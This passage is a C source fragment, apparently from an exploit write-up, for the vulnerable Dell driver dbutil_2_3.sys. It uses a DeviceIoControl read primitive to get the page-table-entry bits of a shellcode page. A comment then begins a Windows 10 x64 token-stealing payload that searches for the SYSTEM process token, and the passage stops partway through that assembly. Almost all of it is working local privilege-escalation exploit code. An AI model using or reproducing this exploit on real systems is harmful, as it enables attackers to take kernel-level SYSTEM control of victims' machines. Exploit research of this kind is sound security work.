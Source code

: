 ```c
      printf("[+] PTE of the .data page the shellcode is located at in dbutil_2_3.sys: 0x%llx\n", shellcodePte);

      // Buffer to send to the driver (read primitive)
      unsigned long long inBuf2[4];

      // Values to send
      unsigned long long one2 = 0x4141414141414141;
      unsigned long long two2 = shellcodePte;
      unsigned long long three2 = 0x0000000000000000;
      unsigned long long four2 = 0x0000000000000000;

      inBuf2[0] = one2;
      inBuf2[1] = two2;
      inBuf2[2] = three2;
      inBuf2[3] = four2;

      // Parameter for DeviceIoControl
      DWORD bytesReturned2 = 0;

      BOOL interact1 = DeviceIoControl(
        driverHandle,
        IOCTL_READ_CODE,
        &inBuf2,
        sizeof(inBuf2),
        &inBuf2,
        sizeof(inBuf2),
        &bytesReturned2,
        NULL
      );

      // Error handling
      if (!interact1)
      {
        printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
        exit(-1);
      }
      else
      {
        // Last member of read array should contain PTE bits
        unsigned long long pteBits = inBuf2[3];

        printf("[+] PTE bits for the shellcode page: %p\n", pteBits);

        /*
          ; Windows 10 1903 x64 Token Stealing Payload
          ; Author Connor McGarr

          [BITS 64]

          _start:
            mov rax, [gs:0x188]     ; Current thread (_KTHREAD)
            mov rax, [rax + 0xb8]   ; Current process (_EPROCESS)
            mov rbx, rax        ; Copy current process (_EPROCESS) to rbx
          __loop:
            mov rbx, [rbx + 0x2f0]    ; ActiveProcessLinks
            sub rbx, 0x2f0          ; Go back to current process (_EPROCESS)
            mov rcx, [rbx + 0x2e8]    ; UniqueProcessId (PID)
            cmp rcx, 4          ; Compare PID to SYSTEM PID
            jnz __loop            ; Loop until SYSTEM PID is found

            mov rcx, [rbx + 0x360]    ; SYSTEM token is @ offset _EPROCESS + 0x360
            and cl, 0xf0        ; Clear out _EX_FAST_REF RefCnt
```